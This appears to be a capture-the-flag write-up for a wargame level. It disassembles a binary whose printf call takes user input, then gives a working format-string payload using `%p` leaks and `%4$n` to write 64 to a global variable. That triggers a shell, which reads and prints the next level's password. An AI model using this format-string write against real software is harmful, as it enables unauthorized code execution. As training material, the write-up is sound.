 Here, there is no buffer overflow, because `fgets` is protected against that. 
But, we can see in the source code that if the variable `m` is set to 0x40 (or 64), then the program will spawn us a shell.
With `gdb`,

```assembly
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.

```

We can see that the variable `m` corresponds to the address `0x804988c`. There is an exploit regarding `printf` that can make anyone write any value in a given address.
To do so, we first need to find how many bytes we need to skip to gather the given input, to be clear :

>level3@RainFall:~$ cat <(python -c 'print "AAAA " + "%p " * 10') - | ./level3 
>AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 

We can see here that the fourth `%p` send back to our own string `AAAA`. So, because of the `%n` option of printf, we can put 60 in the targeted address :

> level3@RainFall:~$ cat <(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"') - | ./level3 
> �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
> Wait what?!
> cat /home/user/level4/.pass
> b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

```bash
su level4
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```


